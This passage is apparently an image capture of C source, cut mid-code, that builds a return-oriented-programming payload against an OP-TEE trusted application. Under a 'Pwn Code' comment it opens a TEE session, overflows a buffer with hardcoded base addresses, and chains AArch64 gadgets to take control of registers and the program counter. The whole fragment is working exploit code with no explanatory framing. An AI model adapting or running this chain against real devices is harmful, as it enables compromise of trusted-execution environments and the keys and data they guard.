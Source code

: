```C
		errx(1, "TEEC_Opensession failed with code 0x%x origin 0x%x",
			res, err_origin);

	memset(&op, 0, sizeof(op));

	/* Pwn Code */
	op.paramTypes = 0x55;

	uint64_t * payload = calloc(0x4000, 1);
	
	uint64_t text_base = 0x40014000;
	uint64_t stack_base = 0x40032000;
	uint64_t overflow = 0x20 / 8;
	uint64_t sp_offset = overflow;
	uint64_t ret_offset = sp_offset + 1; // sp + 8

	/* Original Data */
	memset(payload, 0xA, 0x20);

	/* True Payload */
	// First gadget is 0x34fc: ldp x29, x30, [sp], #0x90; ret;
	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + ret_offset) = text_base + 0x20dc;

	sp_offset += 0x90 / 8;

	// 0x20dc: ldp x29, x30, [sp], #0x60; ret
	// Following code is to set x19, x20, x29, x30(PC pointer)
	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x13c0; // next pc

	sp_offset += 0x60 / 8;

	// 0x13c0: ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
	// Following code is to set x29, x30(PC pointer)
	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x9e20;
	*(payload + sp_offset + 2) = stack_base;

	sp_offset += 0x20 / 8;

	// 0x9e20: ldp x21, x22, [sp, #0x20]; ldp x23, x24, [sp, #0x30]; ldp x25, x26, [sp, #0x40]; ldp x27, x28, [sp, #0x50]; ldp x29, x30, [sp], #0x60; ret
	// Following code is to set x21, x22, x23, x24, x25, x26, x27, x28, x29, x30(PC pointer)
	*(payload + sp_offset) = 0x2929292929292929;
	*(payload + sp_offset + 1) = text_base + 0x42c4;
	*(payload + sp_offset + 4) = 0x1000;
	*(payload + sp_offset + 5) = stack_base + 0x1070; 
	*(payload + sp_offset + 6) = stack_base;
	*(payload + sp_offset + 7) = 0x2424242424242424;
	*(payload + sp_offset + 8) = 0x2525252525252525;
	*(payload + sp_offset + 9) = 0x2626262626262626;
	*(payload + sp_offset + 10) = text_base + 0xB580;
	*(payload + sp_offset + 11) = 0x2828282828282828;
	
	sp_offset += 0x60 / 8;

	*(payload + sp_offset) = stack_base;
	*(payload + sp_offset + 1) = text_base + 0x20c8;
	*(payload + sp_offset + 2) = 0x1919191919191919;
	*(payload + sp_offset + 3) = 0x2020202020202020;

	sp_offset += 0x20 / 8;
```